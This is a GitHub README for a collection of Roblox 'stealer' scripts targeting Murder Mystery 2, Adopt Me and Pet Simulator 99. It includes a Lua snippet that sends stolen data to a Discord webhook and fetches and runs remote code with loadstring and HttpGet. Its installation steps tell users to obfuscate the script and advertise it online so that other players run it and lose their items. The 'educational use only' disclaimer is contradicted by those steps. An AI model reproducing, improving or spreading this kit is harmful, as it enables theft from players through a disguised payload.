 # Star Script's 💫

Welcome to the K4F7's Personal Stealer Scripts Repository on GitHub. This collection features scripts for popular Roblox games such as Murder Mystery 2, Adopt Me, Pet Simulator 99, and more.

## Disclaimer
Please use these scripts responsibly and in accordance with Roblox's terms of service. Unauthorized use of scripts may result in account suspension or banning. Note that I am not responsible for any use with these scripts as these are educational use only. Thanks!

## Features
- **Game Compatibility**: Scripts available for various popular Roblox games.
- **User-Friendly**: Easy to integrate and use within your Roblox experience.
- **Regular Updates**: Scripts are maintained and updated to ensure compatibility with game changes.

## Available Scripts
- **Murder Mystery 2** 🔪
- **Adopt Me** 🐕
- **Pet Simulator 99** 🐈

## Scripts
**Adopt Me**
```lua
Username = "Your Roblox Username Here"
Webhook = "Your Discord Webhook Here"
loadstring(game:HttpGet("adopt",true))()"
```

## Installation Instructions
1. Find the script you want to steal items from players on.
2. Fill out nessacary imformation.
3. Obfuscate the full script with the information.
4. Copy the obfuscated script and advertise it online.

## Contribution
Contributions are welcome! If you have scripts to add or improvements to suggest, please submit a pull request.

## Support
For any questions or issues, please open an issue in the repository or refer to the documentation provided with each script.

